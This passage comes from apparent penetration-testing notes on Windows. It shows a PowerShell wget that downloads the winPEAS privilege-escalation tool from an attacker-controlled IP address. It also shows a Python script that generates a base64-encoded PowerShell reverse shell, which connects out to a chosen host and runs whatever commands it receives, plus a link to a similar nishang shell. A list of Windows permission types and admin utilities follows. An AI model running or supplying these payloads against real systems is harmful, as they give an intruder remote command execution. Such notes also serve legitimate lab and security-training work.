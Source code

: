 ```powershell
wget http://10.9.52.138:8000/winPEASx64.exe -outfile winPEASx64.exe
```

## Reverse shell in powershell (base64)

```python
#!/usr/bin/env python3
from sys import argv
from base64 import b64encode


if __name__ == '__main__':
    if len(argv) < 2:
        print(f"{argv[0]} <IP> <PORT>")
        exit()

    ip, port = argv[1], argv[2]
    payload = '$client = New-Object System.Net.Sockets.TCPClient("' + ip + '",' + port + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
    cmdline = "powershell.exe -e " + b64encode(payload.encode('utf16')[2:]).decode()
    print(cmdline)
```

- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

## Permissions

The permissions are:

-   **Full control**
-   **Modify**
-   **Read & Execute**
-   **List folder contents**
-   **Read**
-   **Write**

Local User and Group Management : `lusrmgr.msc`
System Configuration : `MSConfig`
Windows version : `winver`
The **Computer Management** (`compmgmt`) utility has three primary sections: System Tools, Storage, and Services and Applications. (task scheduler, event logs, shares, ...)
 Registry Editor : `regedit`

## Pentest Tools

### SMB
